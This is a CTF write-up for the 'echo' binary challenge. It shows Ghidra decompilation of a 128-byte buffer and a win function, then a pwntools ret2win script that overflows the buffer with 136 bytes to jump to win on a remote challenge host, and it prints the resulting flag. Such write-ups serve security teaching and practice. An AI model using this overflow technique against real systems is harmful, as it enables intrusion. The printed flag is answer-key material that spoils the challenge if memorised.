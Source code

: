 # Echo
![image](https://github.com/user-attachments/assets/738bbf96-b399-4093-9954-a7a0f7dd091d)

Attachment: [echo](https://github.com/LazyTitan33/CTF-Writeups/raw/refs/heads/main/SnykCon2025/attachments/echo)

## Writeup

I start by decompiling the binary in Ghidra and can see the main function with 128 bytes buffer:  

![image](https://github.com/user-attachments/assets/63a1d38d-a92e-4d42-aeb6-b6d6f8ef5e2f)

There's also a win function that reads the flag:  

![image](https://github.com/user-attachments/assets/f1ef9c51-b81a-4d49-b84a-edcf0691e635)

This is a standard ret2win type challenge which I solved with this script:  

```python
from pwn import *

# Define the target binary
binary = './echo'
elf = ELF(binary)

prog = remote('challenge.ctf.games', 31084)

# Argument to pass to the binary
payload = b'A' * 136
payload += p64(elf.symbols['win'])  # Overwrite the return address with the win function address

prog.recvline()
prog.sendline(payload)
prog.interactive()
```

![image](https://github.com/user-attachments/assets/c7d168c8-e926-45ef-aabf-a645817b65fe)

flag{4f4293237e37d06d733772a087299f17}
